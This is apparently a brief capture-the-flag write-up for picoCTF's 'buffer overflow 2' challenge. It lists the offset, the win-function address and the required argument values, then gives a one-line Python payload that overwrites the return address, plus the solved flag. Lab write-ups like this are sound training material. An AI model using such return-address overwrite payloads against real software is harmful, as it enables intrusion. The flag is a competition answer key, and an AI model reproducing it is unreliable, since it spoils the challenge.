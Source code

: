 > buffer overflow 2 - Points: 250 - (Solves: 186)
> Alright, this time you'll need to control some arguments. Can you get the flag from this program? You can find it in /problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa on the shell server. Source.

Buffer size 100

Argument 1 needs to be `0xDEADBEEF`
Argument 2 needs to be `0xDEADC0DE`

Win function at `080485cb <win>:`

Final offset = 112

Exploit : `./vuln < <(python -c "print 'A'*112 + '\xcb\x85\x04\x08' + 'AAAA' + '\xef\xbe\xad\xde' + '\xde\xc0\xad\xde'")`

Flag: `picoCTF{addr3ss3s_ar3_3asy1b78b0d8}`
